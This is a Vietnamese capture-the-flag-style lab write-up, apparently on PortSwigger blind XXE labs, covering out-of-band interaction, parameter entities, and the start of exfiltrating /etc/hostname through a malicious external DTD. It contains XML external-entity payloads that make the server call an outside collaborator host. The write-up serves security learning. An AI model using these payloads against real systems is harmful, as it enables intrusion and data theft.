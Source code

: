 ### Bài 3: Blind XXE with out-of-band interaction
>![](https://i.imgur.com/yt9hwqs.png)

Mô tả: trang web bị lỗi XXE ở chức năng `Check Stock` tuy nhiên không có response trả về cho việc khai thác, mục tiêu là nhận diện khả năng của cuộc tấn công out-of-band bằng cách khiến nó gửi `HTTP` và `DNS` request đi tới máy chủ của ta.

Sử dụng lại payload như các bài trên, chỉ thay URI bằng đường dẫn tới server của ta

```xml
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://lmbsm72tsapxwbirxm8evi3kbbh25r.oastify.com"> ]>
```

Kết quả:

>![](https://i.imgur.com/8JC4Tfj.png)

>![](https://i.imgur.com/wBjAxs5.png)

<hr>

### Bài 4: Blind XXE with out-of-band interaction via XML parameter entities
>![](https://i.imgur.com/wuVx1kg.png)

Mô tả: cũng như bài trên nhưng `regular` xxe đã bị filter và block, bài lab yêu cầu ta sử dụng Parameter entity

Vậy sử payload trên lại một chút theo format của `parameter entity`

```xml
<!DOCTYPE test [ <!ENTITY % xxe SYSTEM "http://lmbsm72tsapxwbirxm8evi3kbbh25r.oastify.com"> ]>
```

Phần `productId` đổi thành %xxe;

Ta có kết quả như sau

>![](https://i.imgur.com/zPOacOC.png)

>![](https://i.imgur.com/0h40Hai.png)


### Bài 5: Exploiting blind XXE to exfiltrate data using a malicious external DTD
>![](https://i.imgur.com/jmM0LE2.png)

Mô tả: chức năng `Check Stock` bị lỗi XXE, mục tiêu là khai thác lấy nội dung của `/etc/hostname` (thông qua malicious external DTD). Bài lab cũng cung cấp Exploit Server để lưu nội dung của `maliciou DTD`.

Vì nội dung ta muốn lấy không có format DTD, và Parser gặp lỗi như sau

>![](https://i.imgur.com/gH0c9HD.png)


Nên ta cần khai thác gián tiếp

Đầu tiên, tạo một DTD lưu nó trên exploit server

Sau đó, inject vào nội dung POST của chức năng `check stock` 1 external entity để nó thực hiện truy vấn tới server và lấy về DTD đã lưu lúc nãy.
